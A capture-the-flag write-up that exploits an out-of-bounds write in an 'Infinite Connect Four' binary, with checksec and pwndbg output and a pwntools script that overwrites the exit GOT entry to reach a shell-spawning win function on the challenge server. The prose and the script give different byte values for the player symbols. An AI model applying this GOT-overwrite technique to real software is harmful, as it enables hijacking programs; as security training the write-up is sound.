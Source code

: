 # Infinite Connect Four
## Finding the bug
In the source code there is a main function that operates the game and also an uncalled `win` function that will open us a shell. We also find that the `game` function that is called in main within which we find the bug: 
```c
int colint = col - '0';
if (board[7][colint] == player1symbol || board[7][colint] == player2symbol) {
	// we have to shift the entire column down
	int lastfree = 0;
	while (board[lastfree][colint] == player1symbol || board[lastfree][colint] == player2symbol) {
		lastfree--;
}
```
Here we see that there is no check to see whether `lastfree` is negative and everytime the highest position on the board is full it will "shift the entire column down"
Hence it is possible for us to make the `lastfree` negative and then overwrite the data before the `board` whenever it shifts it down

In Binary Ninja, we dump the elf file in and see what data is stored before the `board`: 
![](../Assets/Screenshot%202025-06-02%20at%201.26.42%20PM.png)
We can see that the Global Offset Table is right above the board. Overwriting a GOT entry will allow us to redirect the program to the `win` function. Here in this case, exit is the last function and the nearest function to the board so that is what we will overwrite. So whenever `exit` is called, it will actually run `win` instead. 

So the board is at offset 0x60a0 and the GOT is at 0x6060 so there is a difference in 0x40 bytes

## Checking for file protections
```
hnin@ubuntu:~$ checksec infinite_connect_four
[*] '/home/hnin/infinite_connect_four'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
Notice here there is PIE enabled (so the runtime addresses are all randomised) but RELRO is only partial relro so GOT can still be overwritten. 

## Finding the offsets 
Lets verify this in runtime in gdb-pwndbg. 
Run the program, set the breakpoint at main:
```
pwndbg> got
State of the GOT of /home/hnin/infinite_connect_four:
GOT protection: Partial RELRO | Found 10 GOT entries passing the filter
[0x55555555a018] putchar@GLIBC_2.2.5 -> 0x555555555030 ◂— endbr64 
[0x55555555a020] puts@GLIBC_2.2.5 -> 0x555555555040 ◂— endbr64 
[0x55555555a028] __stack_chk_fail@GLIBC_2.4 -> 0x555555555050 ◂— endbr64 
[0x55555555a030] setbuf@GLIBC_2.2.5 -> 0x555555555060 ◂— endbr64 
[0x55555555a038] system@GLIBC_2.2.5 -> 0x555555555070 ◂— endbr64 
[0x55555555a040] printf@GLIBC_2.2.5 -> 0x555555555080 ◂— endbr64 
[0x55555555a048] fgets@GLIBC_2.2.5 -> 0x555555555090 ◂— endbr64 
[0x55555555a050] getchar@GLIBC_2.2.5 -> 0x5555555550a0 ◂— endbr64 
[0x55555555a058] setvbuf@GLIBC_2.2.5 -> 0x5555555550b0 ◂— endbr64 
[0x55555555a060] exit@GLIBC_2.2.5 -> 0x5555555550c0 ◂— endbr64 


pwndbg> x/32x 0x55555555a060
0x55555555a060 <exit@got.plt>:	0x555550c0	0x00005555	0x00000000	0x00000000
0x55555555a070:	0x00000000	0x00000000	0x00000000	0x00000000
0x55555555a080:	0x00000000	0x00000000	0x5555a088	0x00005555
0x55555555a090:	0x00000000	0x00000000	0x00000000	0x00000000
0x55555555a0a0 <board>:	0x20202020	0x20202020	0x20202020	0x20202020
0x55555555a0b0 <board+16>:	0x20202020	0x20202020	0x20202020	0x20202020
0x55555555a0c0 <board+32>:	0x20202020	0x20202020	0x20202020	0x20202020
0x55555555a0d0 <board+48>:	0x20202020	0x20202020	0x20202020	0x20202020
```

We know that the board is `8*8` given the source code 
```c
char board[8][8] = {
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20',
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20',
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20',
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20',
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20',
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20',
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20',
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20'
};
```
But in each row of memory address here is it 16 bytes so each row in the memory here contains 2 rows of the game board. 
```
0x55555555a0a0 <board>:	0x20202020	0x20202020	0x20202020	0x20202020
0x55555555a0b0 <board+16>:	0x20202020	0x20202020	0x20202020	0x20202020
0x55555555a0c0 <board+32>:	0x20202020	0x20202020	0x20202020	0x20202020
0x55555555a0d0 <board+48>:	0x20202020	0x20202020	0x20202020	0x20202020
```
So from above, we prob need to overwrite 7 rows until we reach the entry for the exit

## Testing the hypothesis
Run the program again in pwndbg. 
Setting player 1 symbol as `A` and player 2 as `B` for simple identification. Keep pressing `0` for the column for both Player 1 and 2 for a total of 16 times (8 times for each player)

Now if we observe the memory region again
```
pwndbg> x/32x 0x55555555a060
0x55555555a060 <exit@got.plt>:	0x55555041	0x00005555	0x00000042	0x00000000
0x55555555a070:	0x00000041	0x00000000	0x00000042	0x00000000
0x55555555a080:	0x00000041	0x00000000	0x5555a042	0x00005555
0x55555555a090:	0x00000041	0x00000000	0x00000042	0x00000000
0x55555555a0a0 <board>:	0x20202041	0x20202020	0x20202042	0x20202020
0x55555555a0b0 <board+16>:	0x20202041	0x20202020	0x20202042	0x20202020
0x55555555a0c0 <board+32>:	0x20202041	0x20202020	0x20202042	0x20202020
0x55555555a0d0 <board+48>:	0x20202041	0x20202020	0x20202042	0x20202020
```
We know that the last byte of the GOT entry for exit is overwritten by 0x41 which is `A`

So how do we overwrite it properly for the program to redirect to win. Overwrite the first column results in overwriting the last 2 hex digit in the GOT entry. So we need to overwrite both the first and second column to overwrite the last 4 hex digit in the GOT entry. There is a 1/16 chance that this will happen.

Then by instead of `A` and `B` for the player symbol we set them as `\x1f` and `\c9`

## Wait, what about PIE & ASLR? 
Apparently we can just bruteforce this a few times as the first few hex digits will most likely be the same so we just need to bruteforce it until the fourth last nibble matches and then we'll be able to redirect to win. 

## python pwn script
We just keep running this script until there isn't an SIGSEGV error and it spawns the shell
``` python
from pwn import * 

#p = process("./infinite_connect_four")
p = remote('challs.nusgreyhats.org', 33102) 

def send(payload):
	p.sendlineafter(b'> ', payload)
	
# first send the symbols of the players
send(b'\xc9') 
send(b'\xbf') 

#setting this will make sure the last byte is overwritten with \xc9 and the seonc last byte is overwrrite with \xbf
send(b'0') 
send(b'1') 

for i in range(15): 
	send(b'0') 
for i in range(15): 
	send(b'1') 

#this will call the exit function but then it will actually execute win
send(b'A') 
p.interactive()
```